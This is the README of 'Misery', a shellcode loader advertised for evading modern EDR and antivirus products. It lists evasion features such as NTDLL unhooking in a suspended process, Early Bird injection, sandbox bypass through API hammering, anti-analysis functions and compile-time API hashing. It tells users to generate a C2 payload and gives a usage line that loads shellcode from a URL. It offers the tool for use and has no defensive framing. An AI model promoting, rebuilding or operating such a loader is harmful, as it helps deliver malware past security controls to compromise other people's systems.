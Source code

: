 # Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

## Misery is a code injector with some features
   * 🪝 Unhook NTDLL from suspended process
   * 💉 Early Bird Injection
   * 📦 Sandbox bypass (Api Hammering) ⚒️
   * 🚫 Anti Analysis Functions
   * 😈 Compile Time API Hashing with HashStringJenkins algorithm
   * ❤️ Developed by sorahed with with lots of love
---

### 📁 Generate the payload with the c2 of your choice(*.bin)
### 🥷 If you want debug output, uncomment all printf lines
---
## 🆘 Usage
### ⚔️ Misery.exe --shelcode \<URL>



